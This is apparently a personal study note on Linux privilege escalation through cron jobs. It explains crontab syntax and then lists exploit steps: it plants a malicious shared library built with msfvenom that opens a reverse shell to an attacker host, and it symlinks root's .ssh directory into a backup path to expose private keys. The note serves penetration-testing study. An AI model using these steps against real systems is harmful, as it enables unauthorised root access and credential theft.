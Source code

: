 ```yaml
---
tags:
  - OperatingSystems
  - Linux
  - TaskScheduling
  - StandardInformation
---
```

[Linux Privilege Escalation by Exploiting Cronjobs - Hacking Articles](https://www.hackingarticles.in/linux-privilege-escalation-by-exploiting-cron-jobs/)
[Cron Jobs – Linux Privilege Escalation - Juggernaut-Sec](https://juggernaut-sec.com/cron-jobs-lpe/)

Cron is another tool that can be used in Linux systems to schedule and automate processes. It allows users and administrators to execute tasks at a specific time or within specific intervals. For the above examples, we can also use Cron to automate the same tasks. We just need to create a script and then tell the cron daemon to call it at a specific time.

Similar vulnerabilities to [[AutoRun SysInternals]] and similar to [[Scheduled Tasks]]
# Guide
To set up the cron daemon, we need to store the tasks in a file called `crontab` and then tell the daemon when to run the tasks.

The structure of Cron consists of the following components:

|**Time Frame**|**Description**|
|---|---|
|Minutes (0-59)|This specifies in which minute the task should be executed.|
|Hours (0-23)|This specifies in which hour the task should be executed.|
|Days of month (1-31)|This specifies on which day of the month the task should be executed.|
|Months (1-12)|This specifies in which month the task should be executed.|
|Days of the week (0-7)|This specifies on which day of the week the task should be executed.|

For example, such a crontab could look like this:

Code: txt

```txt
# System Update
* */6 * * /path/to/update_software.sh

# Execute scripts
0 0 1 * * /path/to/scripts/run_scripts.sh

# Cleanup DB
0 0 * * 0 /path/to/scripts/clean_database.sh

# Backups
0 0 * * 7 /path/to/scripts/backup.sh
```





# Exploit Examples

## Compiled Program

1. Run `lld` on the program

```
linux-vdso.so.1 =>  (0x00007ffd61a5c000)
        utils.so => not found
        libc.so.6 => /lib64/libc.so.6 (0x00007f717136a000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f7171738000)
```

2. Generate a malicious shared object file named `utils.so` and place it in the `/usr/local/lib/dev directory`.

```
msfvenom -p linux/x64/shell_reverse_tcp -f elf-so -o utils.so LHOST=kali 
```

3. Link the file:

```
 ln -s /root/.ssh /tmp/backup/-root-.ssh
```
